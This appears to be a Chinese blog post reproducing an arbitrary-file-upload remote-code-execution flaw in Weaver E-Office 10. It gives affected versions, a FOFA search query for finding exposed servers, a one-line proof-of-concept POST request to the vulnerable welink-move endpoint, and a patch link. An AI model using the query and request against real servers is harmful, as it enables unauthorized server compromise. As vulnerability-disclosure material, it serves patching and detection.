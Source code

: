 # 原创
：  漏洞复现--泛微E-Office 10任意文件上传漏洞

# 漏洞复现--泛微E-Office 10任意文件上传漏洞

## 免责声明：

**文章中涉及的漏洞均已修复，敏感信息均已做打码处理，文章仅做经验分享用途，切勿当真，未授权的攻击属于非法行为！文章中敏感信息均已做多层打马处理。传播、利用本文章所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任，一旦造成后果请自行承担！**

### 一：漏洞描述

近期，长亭科技监测到泛微官方发布了新补丁修复了一处远程代码执行漏洞。<br/> 长亭应急团队经过分析后发现该漏洞是通过文件上传配合文件包含实现远程代码执行。<br/> 泛微E-Office 10在 10.0_20230821 版本之前存在远程代码执行漏洞，该漏洞是通过文件上传配合文件包含实现远程代码执行，攻击者可利用此漏洞上传恶意文件并控制服务器。

### 二：漏洞影响版本

version&lt; e-office 10.0_20230821

### 三：网络空间测绘查询

fofa:<br/> body=“eoffice10” &amp;&amp; body=“eoffice_loading_tip”<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/ebd7bb1371e9896f11805ceda984c6d2.jpeg"/><br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/ef0f2eb4ea034ba8afa1f4c0bae14932.png"/>

### 四：漏洞复现

poc:

```
POST /eoffice10/server/public/api/welink/welink-move HTTP/1.1
Host: ip:port
User-Agent: Go-http-client/1.1
Content-Length: 0
Accept-Encoding: gzip

```

即POST请求<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/8359b04a3eb6b84ebd18217bc00feb44.jpeg"/>

### 五：漏洞检测

XPOC检测：<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/7e450b1343b2bbfe5620199a651985fe.jpeg"/>

### 六：修复建议

目前厂商已发布补丁<br/> ` http://v10.e-office.cn/eoffice9update/20220525/webroot.zip`
